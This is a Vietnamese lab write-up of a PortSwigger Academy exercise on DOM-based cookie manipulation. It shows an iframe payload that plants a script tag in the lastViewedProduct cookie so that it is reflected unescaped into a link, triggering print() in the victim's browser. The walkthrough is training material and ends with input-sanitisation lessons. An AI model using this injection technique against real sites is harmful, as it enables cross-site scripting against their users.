

# Write-ups: DOM-based cookie manipulation

### Tổng quan
Khai thác lỗ hổng DOM-based XSS trong chức năng hiển thị sản phẩm của ứng dụng, nơi cookie `lastViewedProduct` chứa URL sản phẩm (`/product?productId=1`) được hiển thị trực tiếp trong thẻ `<a>` mà không xử lý an toàn. Điều này cho phép kẻ tấn công thao túng giá trị cookie để tiêm payload XSS, thực thi mã JavaScript trên trình duyệt nạn nhân. Bằng cách sử dụng iframe trong Exploit Server để chèn payload XSS và kích hoạt `print()`, kẻ tấn công khai thác lỗ hổng để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng DOM-based XSS bằng cách thao túng cookie `lastViewedProduct` để tiêm payload XSS, thực thi lệnh `print()` trên trình duyệt nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập một sản phẩm bất kỳ và quan sát trong Burp Proxy HTTP history:
    ```
    Cookie: session=zfdp0QHSIFjcFDYlEUzXxoSHTRtOvFSk; lastViewedProduct=https://0a50007e034f424b805af82900a00009.web-security-academy.net/product?productId=1
    ```
- Phản hồi:
    - Trang chứa thẻ `<a>` hiển thị cookie lastViewedProduct:
    ```html
    <a href='https://0a50007e034f424b805af82900a00009.web-security-academy.net/product?productId=1'>Last viewed product</a>    
    ```
    - Giá trị cookie được hiển thị trực tiếp trong thuộc tính href mà không xử lý, cho thấy khả năng tiêm XSS:
        

2. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để thao túng cookie `lastViewedProduct` và tiêm XSS:
    ```html
    <iframe 
        src="https://0a50007e034f424b805af82900a00009.web-security-academy.net/product?productId=1&'><script>print()</script>"
        onload="
            if (!window.x) {
                this.src = 'https://0a50007e034f424b805af82900a00009.web-security-academy.net/product?productId=1';
                window.x = 1;
            }
        ">
    </iframe>
    ```
    
- **Giải thích payload**:
    - Iframe tải URL `/product?productId=1` với thêm `&'><script>print()</script>`, làm giá trị cookie `lastViewedProduct` chứa payload XSS.
    - Thuộc tính `onload` kiểm tra `window.x` để tránh vòng lặp tải lại, sau đó đặt lại src về URL gốc và đặt `window.x = 1`.
- Store và view exploit:  thực thi lệnh `print()`
    

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server và hoàn thành lab:
    

### Bài học rút ra
- Hiểu cách khai thác DOM-based XSS bằng cách thao túng cookie `lastViewedProduct` để tiêm payload XSS, tận dụng việc hiển thị trực tiếp giá trị cookie trong thẻ `<a>` mà không xử lý an toàn.
- Nhận thức tầm quan trọng của việc xử lý an toàn dữ liệu cookie và kiểm tra đầu vào trước khi hiển thị trong HTML để ngăn chặn các cuộc tấn công XSS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác DOM-based XSS thông qua thao túng cookie, nhấn mạnh tầm quan trọng của việc xử lý an toàn dữ liệu cookie và kiểm tra đầu vào để bảo vệ ứng dụng khỏi các cuộc tấn công XSS. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*